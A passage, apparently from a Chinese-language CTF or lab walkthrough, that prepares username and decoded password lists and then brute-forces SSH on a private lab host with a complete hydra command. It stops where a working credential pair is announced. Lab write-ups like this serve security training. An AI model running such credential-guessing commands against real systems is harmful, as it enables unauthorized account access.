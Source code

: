 - 将名字和密码分别存入文件`users.txt`和`base64_passwords.txt`。名字作为账户名可能为全小写或者全大写，所以将大小写名字也添加进去。
  
  ```bash
  Smith
  Lucas
  Travis
  Dexter
  Meyer
  
  smith
  lucas
  travis
  dexter
  meyer
  
  SMITH
  LUCAS
  TRAVIS
  DEXTER
  MEYER
  ```
  
  ```bash
  c3VSSkFkR3dMcDhkeTNyRg==
  N1p3VjRxdGc0MmNtVVhHWA==
  WDdNUWtQM1cyOWZld0hkQw==
  REpjZVZ5OThXMjhZN3dMZw==
  Y3FObkJXQ0J5UzJEdUpTeQ==
  ```

- 对密码解码，并保存到文件`passwords.txt`中
  
  ```bash
  for line in $(cat base64_passwords.txt)
  
  do
  
  echo $line | base64 -d >> passwords.txt
  echo -e >>passwords.txt
  done
  ```
  
  ```bash
  suRJAdGwLp8dy3rF
  7ZwV4qtg42cmUXGX
  X7MQkP3W29fewHdC
  DJceVy98W28Y7wLg
  cqNnBWCByS2DuJSy
  ```

- 爆破
  
  ```bash
  hydra -e nsr -L users.txt -P passwords.txt 192.168.1.111 ssh -t 4 -o hydra.out
  ```

- 成功得到账户密码组合
  